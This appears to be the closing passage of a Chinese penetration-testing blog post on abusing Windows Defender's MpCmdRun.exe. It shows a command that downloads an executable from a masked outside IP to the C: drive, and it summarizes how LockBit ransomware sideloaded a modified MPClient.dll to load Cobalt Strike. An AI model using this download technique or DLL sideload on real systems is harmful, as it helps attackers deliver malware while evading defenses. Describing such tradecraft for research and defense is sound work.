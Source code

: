 ```
MpCmdRun.exe -DownloadFile -url http://*.*.*.*:81/co.exe -path c:\co.exe
```

![](https://p2.ssl.qhimg.com/t01cbaf9b15d3f503cc.png)

### MpCmdRun.exe解密和加载Cobalt Strike攻击载荷

这篇文章是7月底发布的，还算比较新（在我10月份写这篇文章的时候）。  
[https://www.bleepingcomputer.com/news/security/lockbit-ransomware-abuses-windows-defender-to-load-cobalt-strike/](https://www.bleepingcomputer.com/news/security/lockbit-ransomware-abuses-windows-defender-to-load-cobalt-strike/)  
一开始还以为是生成含有恶意载荷的dll文件替为MPClient.dll后就可以执行，结果在自己机器上尝试了一下根本不能上线，仔细看了看（谷歌翻译后）才明白大意是攻击者通过MpCmdRun.exe 加载修改后的MPClient.dll执行c0000015.log进而实现上线Cobalt Strike，当然这就触及到我的知识盲区了，感兴趣的铁子可以继续研究一下（教教我）。

![](https://p2.ssl.qhimg.com/t01f1f23ac2528d2333.png)

## 参考文章

[https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Windows-Defender](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Windows-Defender)